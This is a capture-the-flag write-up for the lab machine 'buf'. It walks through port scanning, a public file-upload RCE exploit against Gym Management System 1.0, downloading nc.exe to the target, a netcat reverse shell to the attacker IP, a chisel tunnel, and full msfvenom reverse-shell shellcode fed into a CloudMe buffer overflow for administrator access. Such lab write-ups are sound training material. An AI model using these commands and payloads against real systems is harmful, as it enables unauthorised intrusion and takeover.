

# buf

| Hostname   | Difficulty |
| ---        | ---        |
| buf | Easy           |

Machine IP: 10.10.10.198 :

```bash
TARGET=10.10.10.198       # buf IP address
```

## Initial Reconnaissance

### Ports and services

Let's start by enumerate the exposed services :

```shell
# -p- : ports to scan. "-" is for all ports
NMAP_TARGET=$TARGET # target to scan
# -T4 : timing template (0(slower) to 5(faster) )
# -Pn : Treat all hosts as online -- skip host discovery
# --min-rate=1000 : Send packets no slower than <number> per second
NMAP_OUTPUT=$NMAP_TARGET-nmap-enumports # Save output to file(s)
nmap -p- $NMAP_TARGET -Pn --min-rate=1000 -oA $NMAP_OUTPUT
```

Result:

```text
Starting Nmap 7.93 ( https://nmap.org ) at 2023-08-15 15:52 CEST
Nmap scan report for 10.10.10.198
Host is up (0.025s latency).
Not shown: 65533 filtered tcp ports (no-response)
PORT     STATE SERVICE
7680/tcp open  pando-pub
8080/tcp open  http-proxy

Nmap done: 1 IP address (1 host up) scanned in 101.66 seconds
```

Let's enumerate deeper these services :

```shell
PORTS=8080,7680 # ports to scan. "-" is for all ports. ex: 80,22
NMAP_TARGET=$TARGET # target to scan
# -T4 : 
# -Pn :
# --min-rate=1000 :
# -sC : 
# -sV : 
# -A :
NMAP_OUTPUT=$NMAP_TARGET-nmap-inspect # Save output to file(s)
nmap -p $PORTS -sC -sV -A $NMAP_TARGET -T4 --min-rate=1000 -oA $NMAP_OUTPUT
```

Result:

```text
Starting Nmap 7.93 ( https://nmap.org ) at 2023-08-15 15:55 CEST
Nmap scan report for 10.10.10.198
Host is up (0.093s latency).

PORT     STATE SERVICE    VERSION
7680/tcp open  pando-pub?
8080/tcp open  http       Apache httpd 2.4.43 ((Win64) OpenSSL/1.1.1g PHP/7.4.6)
|_http-server-header: Apache/2.4.43 (Win64) OpenSSL/1.1.1g PHP/7.4.6
|_http-title: mrb3n's Bro Hut
| http-open-proxy: Potentially OPEN proxy.
|_Methods supported:CONNECTION
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Microsoft Windows XP|7 (89%)
OS CPE: cpe:/o:microsoft:windows_xp::sp3 cpe:/o:microsoft:windows_7
Aggressive OS guesses: Microsoft Windows XP SP3 (89%), Microsoft Windows XP SP2 (86%), Microsoft Windows 7 (85%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops

TRACEROUTE (using port 8080/tcp)
HOP RTT       ADDRESS
1   24.09 ms  10.10.14.1
2   229.57 ms 10.10.10.198

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 63.26 seconds
```

### Web Service

Get redirections, and hostname :

```shell
whatweb http://$TARGET:8080
```

```text
http://10.10.10.198:8080 [200 OK] Apache[2.4.43], Bootstrap, Cookies[sec_session_id], Country[RESERVED][ZZ], Frame, HTML5, HTTPServer[Apache/2.4.43 (Win64) OpenSSL/1.1.1g PHP/7.4.6], HttpOnly[sec_session_id], IP[10.10.10.198], JQuery[1.11.0,1.9.1], OpenSSL[1.1.1g], PHP[7.4.6], PasswordField[password], Script[text/JavaScript,text/javascript], Shopify, Title[mrb3n's Bro Hut], Vimeo, X-Powered-By[PHP/7.4.6], X-UA-Compatible[IE=edge]
```


```shell
firefox http://$TARGET:8080 &
```


In the contact page :



The software used is "Gym Management Software 1.0"
## Initial access

### Exploitation

```shell
searchsploit gym management
```

```text
------------------------------------------------------------ ---------------------------------
 Exploit Title                                              |  Path
------------------------------------------------------------ ---------------------------------
Gym Management System 1.0 - Authentication Bypass           | php/webapps/48940.txt
Gym Management System 1.0 - 'id' SQL Injection              | php/webapps/48936.txt
Gym Management System 1.0 - Stored Cross Site Scripting     | php/webapps/48941.txt
Gym Management System 1.0 - Unauthenticated Remote Code Exe | php/webapps/48506.py
------------------------------------------------------------ ---------------------------------
```

EDB-48506 is interesting as a remote code execution

Get the python exploit code :

```shell
searchsploit -m 48506
```

> Gym Management System version 1.0 suffers from an Unauthenticated File Upload Vulnerability allowing Remote Attackers to gain Remote Code Execution (RCE) on the Hosting Webserver via uploading a maliciously crafted PHP file that bypasses the image upload filters.

Execute the exploit code :

```shell
python2 ./48506.py http://$TARGET:8080/
```

```text
            /\
/vvvvvvvvvvvv \--------------------------------------,
`^^^^^^^^^^^^ /============BOKU====================="
            \/

[+] Successfully connected to webshell.
C:\xampp\htdocs\gym\upload> whoami
�PNG
�
buff\shaun
```

We have a shell under user shaun
## Post-Exploitation

### Host Reconnaissance

```shell
systeminfo
```

```text
Host Name:                 BUFF
OS Name:                   Microsoft Windows 10 Enterprise
OS Version:                10.0.17134 N/A Build 17134
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Workstation
OS Build Type:             Multiprocessor Free
Registered Owner:          shaun
Registered Organization:   
Product ID:                00329-10280-00000-AA218
Original Install Date:     16/06/2020, 15:05:58
System Boot Time:          15/08/2023, 14:47:48
System Manufacturer:       VMware, Inc.
System Model:              VMware7,1
System Type:               x64-based PC
Processor(s):              2 Processor(s) Installed.
                           [01]: AMD64 Family 23 Model 49 Stepping 0 AuthenticAMD ~2994 Mhz
                           [02]: AMD64 Family 23 Model 49 Stepping 0 AuthenticAMD ~2994 Mhz
BIOS Version:              VMware, Inc. VMW71.00V.16707776.B64.2008070230, 07/08/2020
Windows Directory:         C:\Windows
System Directory:          C:\Windows\system32
Boot Device:               \Device\HarddiskVolume2
System Locale:             en-us;English (United States)
Input Locale:              en-gb;English (United Kingdom)
Time Zone:                 (UTC+00:00) Dublin, Edinburgh, Lisbon, London
Total Physical Memory:     4,095 MB
Available Physical Memory: 2,528 MB
Virtual Memory: Max Size:  4,799 MB
Virtual Memory: Available: 2,877 MB
Virtual Memory: In Use:    1,922 MB
Page File Location(s):     C:\pagefile.sys
Domain:                    WORKGROUP
Logon Server:              N/A
Hotfix(s):                 N/A
Network Card(s):           1 NIC(s) Installed.
                           [01]: vmxnet3 Ethernet Adapter
                                 Connection Name: Ethernet0
                                 DHCP Enabled:    No
                                 IP address(es)
                                 [01]: 10.10.10.198
                                 [02]: fe80::892b:5530:84a4:9424
                                 [03]: dead:beef::389c:4a2c:15cc:c127
                                 [04]: dead:beef::892b:5530:84a4:9424
                                 [05]: dead:beef::14b
Hyper-V Requirements:      A hypervisor has been detected. Features required for Hyper-V will not be displayed.
```

### Privilege Escalation

Only shaun as user :

```shell
dir c:\Users
�PNG
�
 Volume in drive C has no label.
 Volume Serial Number is A22D-49F7

 Directory of c:\Users

16/06/2020  20:52    <DIR>          .
16/06/2020  20:52    <DIR>          ..
20/07/2020  12:08    <DIR>          Administrator
16/06/2020  15:08    <DIR>          Public
16/06/2020  15:11    <DIR>          shaun
               0 File(s)              0 bytes
               5 Dir(s)   8,458,244,096 bytes free
```

This user has download a software :

```shell
dir c:\Users\shaun\Downloads
�PNG
�
 Volume in drive C has no label.
 Volume Serial Number is A22D-49F7

 Directory of c:\Users\shaun\Downloads

14/07/2020  13:27    <DIR>          .
14/07/2020  13:27    <DIR>          ..
16/06/2020  16:26        17,830,824 CloudMe_1112.exe
               1 File(s)     17,830,824 bytes
               2 Dir(s)   8,458,227,712 bytes free
```

CloudMe version "1112"

A quick search indicates some vulnerabilities ans exploits :

```shell
searchsploit cloudme
```

```text
------------------------------------------------------------ ---------------------------------
 Exploit Title                                              |  Path
------------------------------------------------------------ ---------------------------------
CloudMe 1.11.2 - Buffer Overflow (PoC)                      | windows/remote/48389.py
CloudMe 1.11.2 - Buffer Overflow ROP (DEP_ASLR)             | windows/local/48840.py
CloudMe 1.11.2 - Buffer Overflow (SEH_DEP_ASLR)             | windows/local/48499.txt
Cloudme 1.9 - Buffer Overflow (DEP) (Metasploit)            | windows_x86-64/remote/45197.rb
CloudMe Sync 1.10.9 - Buffer Overflow (SEH)(DEP Bypass)     | windows_x86-64/local/45159.py
CloudMe Sync 1.10.9 - Stack-Based Buffer Overflow (Metasplo | windows/remote/44175.rb
CloudMe Sync < 1.11.0 - Buffer Overflow (SEH) (DEP Bypass)  | windows_x86-64/remote/44784.py
CloudMe Sync < 1.11.0 - Buffer Overflow                     | windows/remote/44027.py
CloudMe Sync 1.11.0 - Local Buffer Overflow                 | windows/local/44470.py
CloudMe Sync 1.11.2 - Buffer Overflow + Egghunt             | windows/remote/46218.py
CloudMe Sync 1.11.2 Buffer Overflow - WoW64 (DEP Bypass)    | windows_x86-64/remote/46250.py
------------------------------------------------------------ ---------------------------------
Shellcodes: No Results

```

We will get a better shell with nc

```shell
cp /opt/resources/windows/nc.exe .
```

start the web server :

```shell
updog
```

on the target host, download nc :

```shell
powershell "Invoke-WebRequest -Uri http://10.10.14.14:9090/nc.exe -OutFile c:\Users\shaun\Downloads\innocent.exe"
```

Start the listener :

```shell
rlwrap nc -lvnp 4444
```

Start the reverse shell :

```shell
c:\Users\shaun\Downloads\innocent.exe -e powershell.exe 10.10.14.14 4444
```

```text
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::4444
Ncat: Listening on 0.0.0.0:4444
Ncat: Connection from 10.10.10.198.
Ncat: Connection from 10.10.10.198:49777.
Windows PowerShell 
Copyright (C) Microsoft Corporation. All rights reserved.

PS C:\xampp\htdocs\gym\upload> whoami
buff\shaun
```

We will now test EDB-48389

```shell
searchsploit -m 48389
```

The exploit will use port 8888 to access CloudMe

The application is currently running :

```shell
Get-process
```

```text
Handles  NPM(K)    PM(K)      WS(K)     CPU(s)     Id  SI ProcessName                                   -------  ------    -----      -----     ------     --  -- -----------                                       433      24    18788       9028              6668   1 ApplicationFrameHost                              161      10     1920       1812              7052   1 browser_broker                                    336      24    31076      37428              3028   0 CloudMe
```

Let's check the open ports :

```shell
netstat -ano | select-string -pattern ':0'
```

```text
  TCP    0.0.0.0:135            0.0.0.0:0              LISTENING       940
  TCP    0.0.0.0:445            0.0.0.0:0              LISTENING       4
  TCP    0.0.0.0:5040           0.0.0.0:0              LISTENING       5856
  TCP    0.0.0.0:7680           0.0.0.0:0              LISTENING       2676
  TCP    0.0.0.0:8080           0.0.0.0:0              LISTENING       2888
  TCP    0.0.0.0:49664          0.0.0.0:0              LISTENING       524
  TCP    0.0.0.0:49665          0.0.0.0:0              LISTENING       1068
  TCP    0.0.0.0:49666          0.0.0.0:0              LISTENING       1640
  TCP    0.0.0.0:49667          0.0.0.0:0              LISTENING       2188
  TCP    0.0.0.0:49668          0.0.0.0:0              LISTENING       668
  TCP    0.0.0.0:49669          0.0.0.0:0              LISTENING       676
  TCP    10.10.10.198:139       0.0.0.0:0              LISTENING       4
  TCP    127.0.0.1:3306         0.0.0.0:0              LISTENING       7708
  TCP    127.0.0.1:8888         0.0.0.0:0              LISTENING       3180
  TCP    [::]:135               [::]:0                 LISTENING       940
  TCP    [::]:445               [::]:0                 LISTENING       4
  TCP    [::]:7680              [::]:0                 LISTENING       2676
  TCP    [::]:8080              [::]:0                 LISTENING       2888
  TCP    [::]:49664             [::]:0                 LISTENING       524
  TCP    [::]:49665             [::]:0                 LISTENING       1068
  TCP    [::]:49666             [::]:0                 LISTENING       1640
  TCP    [::]:49667             [::]:0                 LISTENING       2188
  TCP    [::]:49668             [::]:0                 LISTENING       668
  TCP    [::]:49669             [::]:0                 LISTENING       676
```

Let's use chisel to open a tunnel from out host to target host port 8888:

```shell
# make chisel available to download via updog
cp /opt/my-resources/chisel/windows_amd64/chisel_windows_amd64 .
# start server
# listen on port 8000
/opt/my-resources/chisel/linux_amd64/chisel_linux_amd64 server -p 8000 --reverse
```

Then on the target :

```shell
# download chisel
Invoke-WebRequest -Uri http://10.10.14.14:9090/chisel_windows_amd64 -OutFile c:\Users\shaun\Downloads\chisel.exe

# start chisel client
# connect to our host on port 8000 (server is listening)
# redirect port 8888 on server side to port 8888 on localhost (client)
c:\Users\shaun\Downloads\chisel.exe client 10.10.14.14:8000 R:8888:localhost:8888
```

The server is indicating the connection :

```text
server: Reverse tunnelling enabled
server: Fingerprint ZV7yriNU2qNp2X2aMwgX4LnSkhwBl6rSGYylQq8ifpo=
server: Listening on http://0.0.0.0:8000
server: session#1: tun: proxy#R:8888=>localhost:8888: Listening
```

Now, we can access CloudMe on the port 8888 of our attack host.

The exploit is a simple buffer overflow.

We have to replace the payload from :

```shell
msfvenom -a x86 -p windows/exec CMD=calc.exe -b '\x00\x0A\x0D' -f python
```

To a reverse shell:

```shell
msfvenom -a x86 -p windows/shell_reverse_tcp LHOST=10.10.14.14 LPORT=4445 -b '\x00\x0A\x0D' -f python -v payload
```

```text
payload =  b""
payload += b"\xdb\xd8\xd9\x74\x24\xf4\x58\xba\xd1\xdb\x4d"
payload += b"\xcb\x2b\xc9\xb1\x52\x83\xc0\x04\x31\x50\x13"
payload += b"\x03\x81\xc8\xaf\x3e\xdd\x07\xad\xc1\x1d\xd8"
payload += b"\xd2\x48\xf8\xe9\xd2\x2f\x89\x5a\xe3\x24\xdf"
payload += b"\x56\x88\x69\xcb\xed\xfc\xa5\xfc\x46\x4a\x90"
payload += b"\x33\x56\xe7\xe0\x52\xd4\xfa\x34\xb4\xe5\x34"
payload += b"\x49\xb5\x22\x28\xa0\xe7\xfb\x26\x17\x17\x8f"
payload += b"\x73\xa4\x9c\xc3\x92\xac\x41\x93\x95\x9d\xd4"
payload += b"\xaf\xcf\x3d\xd7\x7c\x64\x74\xcf\x61\x41\xce"
payload += b"\x64\x51\x3d\xd1\xac\xab\xbe\x7e\x91\x03\x4d"
payload += b"\x7e\xd6\xa4\xae\xf5\x2e\xd7\x53\x0e\xf5\xa5"
payload += b"\x8f\x9b\xed\x0e\x5b\x3b\xc9\xaf\x88\xda\x9a"
payload += b"\xbc\x65\xa8\xc4\xa0\x78\x7d\x7f\xdc\xf1\x80"
payload += b"\xaf\x54\x41\xa7\x6b\x3c\x11\xc6\x2a\x98\xf4"
payload += b"\xf7\x2c\x43\xa8\x5d\x27\x6e\xbd\xef\x6a\xe7"
payload += b"\x72\xc2\x94\xf7\x1c\x55\xe7\xc5\x83\xcd\x6f"
payload += b"\x66\x4b\xc8\x68\x89\x66\xac\xe6\x74\x89\xcd"
payload += b"\x2f\xb3\xdd\x9d\x47\x12\x5e\x76\x97\x9b\x8b"
payload += b"\xd9\xc7\x33\x64\x9a\xb7\xf3\xd4\x72\xdd\xfb"
payload += b"\x0b\x62\xde\xd1\x23\x09\x25\xb2\x41\xc4\x2b"
payload += b"\x4c\x3e\xda\x33\x41\xe3\x53\xd5\x0b\x0b\x32"
payload += b"\x4e\xa4\xb2\x1f\x04\x55\x3a\x8a\x61\x55\xb0"
payload += b"\x39\x96\x18\x31\x37\x84\xcd\xb1\x02\xf6\x58"
payload += b"\xcd\xb8\x9e\x07\x5c\x27\x5e\x41\x7d\xf0\x09"
payload += b"\x06\xb3\x09\xdf\xba\xea\xa3\xfd\x46\x6a\x8b"
payload += b"\x45\x9d\x4f\x12\x44\x50\xeb\x30\x56\xac\xf4"
payload += b"\x7c\x02\x60\xa3\x2a\xfc\xc6\x1d\x9d\x56\x91"
payload += b"\xf2\x77\x3e\x64\x39\x48\x38\x69\x14\x3e\xa4"
payload += b"\xd8\xc1\x07\xdb\xd5\x85\x8f\xa4\x0b\x36\x6f"
payload += b"\x7f\x88\x46\x3a\xdd\xb9\xce\xe3\xb4\xfb\x92"
payload += b"\x13\x63\x3f\xab\x97\x81\xc0\x48\x87\xe0\xc5"
payload += b"\x15\x0f\x19\xb4\x06\xfa\x1d\x6b\x26\x2f"
```

start a reverse shell:

```shell
rlwrap nc -lvnp 4445
```

Execute the exploit :

```shell
python3 48389.py
```

```text
Ncat: Connection from 10.10.10.198.
Ncat: Connection from 10.10.10.198:49782.
Microsoft Windows [Version 10.0.17134.1610]
(c) 2018 Microsoft Corporation. All rights reserved.

whoami
whoami
buff\administrator

C:\Windows\system32>

```
